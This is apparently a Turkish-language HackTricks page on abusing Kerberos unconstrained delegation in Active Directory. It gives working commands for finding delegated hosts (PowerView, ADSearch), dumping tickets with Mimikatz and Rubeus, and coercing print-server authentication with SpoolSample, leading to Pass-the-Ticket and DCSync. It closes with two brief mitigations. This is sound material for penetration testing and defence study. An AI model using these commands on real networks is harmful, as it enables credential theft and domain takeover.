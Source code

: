 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Bu, bir Alan Yöneticisinin alan içindeki herhangi bir **Bilgisayar** için ayarlayabileceği bir özelliktir. Daha sonra, bir **kullanıcı Bilgisayara giriş yaptığında**, o kullanıcının **TGT'sinin bir kopyası** DC tarafından sağlanan **TGS'ye gönderilecek** ve **LSASS'ta bellekte saklanacaktır**. Yani, makinede Yönetici ayrıcalıklarınız varsa, **biletleri dökebilir ve kullanıcıları** herhangi bir makinede taklit edebilirsiniz.

Bu nedenle, "Unconstrained Delegation" özelliği etkinleştirilmiş bir Bilgisayara giriş yapan bir alan yöneticisi varsa ve o makinede yerel yönetici ayrıcalıklarınız varsa, bileti dökebilir ve Alan Yöneticisini her yerde taklit edebilirsiniz (alan privesc).

Bu **özelliğe sahip Bilgisayar nesnelerini bulabilirsiniz**; [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) niteliğinin [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) içerip içermediğini kontrol ederek. Bunu ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ LDAP filtresi ile yapabilirsiniz; bu, powerview'ün yaptığıdır:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DC'ler her zaman görünür ama privesc için faydalı değildir
<strong>## ADSearch
</strong>ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Tavsiye edilen yol
kerberos::list /export #Başka bir yol

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Yeni TGT'ler için her 10 saniyede bir kontrol et</code></pre>

Yönetici (veya kurban kullanıcının) biletini bellekte **Mimikatz** veya **Rubeus ile** yükleyin [**Pass the Ticket**](pass-the-ticket.md)** için.**\
Daha fazla bilgi: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Unconstrained delegation hakkında daha fazla bilgi ired.team'de.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

Eğer bir saldırgan **"Unconstrained Delegation" için izin verilen bir bilgisayarı ele geçirebilirse**, bir **Yazıcı sunucusunu** **otomatik olarak giriş yapmaya** **kandırabilir** ve bu da sunucunun belleğinde bir TGT **kaydedebilir**.\
Daha sonra, saldırgan **Kullanıcı Yazıcı sunucu bilgisayar hesabını taklit etmek için** bir **Pass the Ticket saldırısı** gerçekleştirebilir.

Bir yazıcı sunucusunun herhangi bir makineye giriş yapmasını sağlamak için [**SpoolSample**](https://github.com/leechristensen/SpoolSample) kullanabilirsiniz:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Eğer TGT bir etki alanı denetleyicisinden geliyorsa, bir[ **DCSync attack**](acl-persistence-abuse/index.html#dcsync) gerçekleştirebilir ve DC'den tüm hash'leri elde edebilirsiniz.\
[**Bu saldırı hakkında daha fazla bilgi ired.team'de.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Kimlik doğrulamayı zorlamak için diğer yollar:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigasyon

- DA/Admin oturum açmalarını belirli hizmetlerle sınırlayın
- Ayrıcalıklı hesaplar için "Hesap hassastır ve devredilemez" ayarını yapın.

{{#include ../../banners/hacktricks-training.md}}
